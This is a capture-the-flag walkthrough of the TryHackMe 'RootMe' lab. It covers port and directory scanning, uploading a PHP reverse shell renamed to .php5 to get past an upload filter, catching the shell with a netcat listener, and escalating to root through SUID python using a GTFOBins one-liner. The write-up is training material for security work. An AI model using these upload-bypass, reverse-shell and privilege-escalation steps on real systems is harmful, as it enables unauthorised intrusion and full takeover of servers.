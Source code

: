 # RootMe @TryHackMe

Difficulty: EASY

Keywords and tools: nmap, dirb, ncat, google, python

### Check that host is alive
```
$ ping 10.10.108.171                                                                                       
PING 10.10.108.171 (10.10.108.171) 56(84) bytes of data.
64 bytes from 10.10.108.171: icmp_seq=1 ttl=63 time=48.4 ms
64 bytes from 10.10.108.171: icmp_seq=2 ttl=63 time=51.3 ms
```
### nmap scan
```
$nmap -sV -n -v -Pn -p- -T4 -A 10.10.108.171
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We have ports 22 and 80 open, so SSH and web app.

### Lets run dirb, nikto and visit the site via browser.
```
$ dirb http://10.10.108.171  
---- Scanning URL: http://10.10.108.171/ ----
==> DIRECTORY: http://10.10.108.171/css/                                                                         
+ http://10.10.108.171/index.php (CODE:200|SIZE:616)                                                             
==> DIRECTORY: http://10.10.108.171/js/                                                                          
==> DIRECTORY: http://10.10.108.171/panel/                                                                       
+ http://10.10.108.171/server-status (CODE:403|SIZE:278)
```
```
$ -h nikto 10.10.108.171
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Cookie PHPSESSID created without the httponly flag
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
```
Now we have all the answers for Reconnaissance questions.

Lets visit "http://10.10.108.171/panel/". Looks like you can upload files.

### We need to create a shell.
```
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
Open the file and edit row 49 and 50 to match your IP and desired port.

Then upload the file to target_ip/panel.

Apparently uploading php file is not permitted. Rename file to .php5 and try again.

Once the php5 is uploaded. Start a netcat listener and open the shell via browser 10.10.108.171/shell.php.
```
$ nc -lvnp 1234                                                                                      
listening on [any] 1234 ...
connect to [10.8.155.124] from (UNKNOWN) [10.10.169.110] 47264
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 13:17:15 up 12 min,  0 users,  load average: 0.08, 0.68, 0.69
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ find / -name user.txt 2>/dev/null
/var/www/user.txt
$ $ cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
```

THM gives a hint on the next question: find / -user root -perm /4000

```
find / -user root -perm /4000 2>/dev/null
```
Apparently python is unusual.

Lets google "python SUID" > https://gtfobins.github.io/gtfobins/python/

```
cd /usr/bin
$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
$ find / -name user.txt 2>/dev/null
find / -name root.txt 2>/dev/null
/root/root.txt
cat /root/root.txt
```








